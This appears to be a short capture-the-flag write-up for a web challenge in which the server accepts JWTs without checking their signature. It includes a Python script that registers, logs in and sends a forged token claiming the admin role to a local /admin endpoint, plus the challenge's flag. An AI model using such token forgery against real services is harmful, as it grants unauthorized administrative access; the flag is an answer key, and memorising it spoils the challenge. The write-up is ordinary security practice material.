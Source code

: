 ```yaml
---
created: 2025-03-01T20:43
updated: 2025-03-01T20:46
---
```


I thought this was a JWT cracking challenge, but turns out I can just sign it with whatever and it will work. The pasted JWT is from jwt.io with `"role": "admin"`.

```python
import requests
s = requests.Session()
s.post("http://127.0.0.1:53080/signup", json={"username": "www", "password": "www"})
res = s.post("http://127.0.0.1:53080/login", json={"username": "www", "password": "www"}).json()
print(s.get("http://127.0.0.1:53080/admin", headers={"Authorization": "Bearer " +
      "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ind3dyIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTc0MDg3OTY1MiwiZXhwIjoxNzQwODgzMjUyfQ.OQyUrtYW33oG9pUdSRh1_Feps9OI1_ZnJ6qVtmbzgu8"}).text)
```

```flag
ATHACKCTF{trust_is_a_vulnerability}
```
